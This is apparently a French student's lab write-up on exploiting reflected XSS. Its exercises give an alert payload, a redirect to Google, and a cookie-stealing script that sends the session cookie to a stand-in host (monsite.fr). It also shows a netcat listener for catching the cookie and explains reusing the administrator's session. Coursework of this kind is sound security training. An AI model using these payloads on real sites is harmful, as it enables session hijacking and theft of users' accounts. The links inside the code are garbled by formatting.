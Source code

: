 ﻿# TP1 - Exploitation des applications Web

## Exercice 1 - (XSS)
*Objectif : Se rendre dans la page « XSS reflected » et exploiter la faille de XSS afin d’afficher un message d’alerte.*  
  
```js 
<script>alert('POUET')</script>
```
- Où puis-je injecter du code dans un site Web ? 
	- **Dans une balise input HTML.**
- Où ce code sera-t-il interprété (Côté client, serveur) ? Quelles sont mes possibilités d’attaques ?
	- **Côté client. C'est du JS, on ne peut pas faire grand chose à part agir sur des cookies.**


## Exercice 2 - (XSS)

*Objectif : Se rendre dans la page « XSS reflected » et exploiter la faille de XSS pour être redirigé vers le site de GOOGLE.*  

- Comment faire une redirection en JavaScript ?
```js 
<script>document.location.href="[http://google.com/](http://google.com/ "http://google.com/")";</script>
```

## Exercice 3 - (XSS)
*Objectif : Nous avons vu que la faille de XSS permettait de rediriger vers un site Web, exécuter du code JavaScript. Maintenant, il est temps de construire votre première attaque  
Forger une URL à envoyer par mail à l’administrateur du site pour lui voler son cookie de session. Une fois cette étape réussie, utiliser les informations obtenues pour s‘authentifier sur le site. Pour simuler votre attaque, vous pouvez déjà voir ce qui se passe quand vous cliquez sur votre lien.*

- Comment récupérer vos cookies en JavaScript ? 
```js 
	<script>function getCookies(){
	for(var o=document.cookie.split(";"),e="",t=1;t<=o.length;t++)e+=t+" - "+o[t-1]+"<br>";
	return e}
	document.location.href="[http://monsite.fr/?cookie=%22+getCookies()](http://monsite.fr/?cookie=%22+getCookies() "http://monsite.fr/?cookie=%22+getCookies()");</script>
```
- Comment envoyer les cookies récupérés vers un site distant contrôlé ?
	```js
	document.location.href="[http://monsite.fr/?cookie=%22+getCookies()](http://monsite.fr/?cookie=%22+getCookies() "http://monsite.fr/?cookie=%22+getCookies()");
	```
- Comment faire pour monter un site distant (contrôlé) en attente des cookies ? sur Apache ? sur netcat ? 
	- **Apache: **
	- **NetCat: nc -l -p [port]**
- Comment utiliser les informations obtenues pour usurper l’identité de l’administrateur ? 
	- **Utiliser ce cookie dans une requête pour voler la session de l'admin lorsqu'il est connecté**
- Cette attaque fonctionne t’elle systématiquement?
	- **Non si l'admin n'est pas connecté ça ne fonctionne pas ou bien si le site est protégé (souvent le cas).**
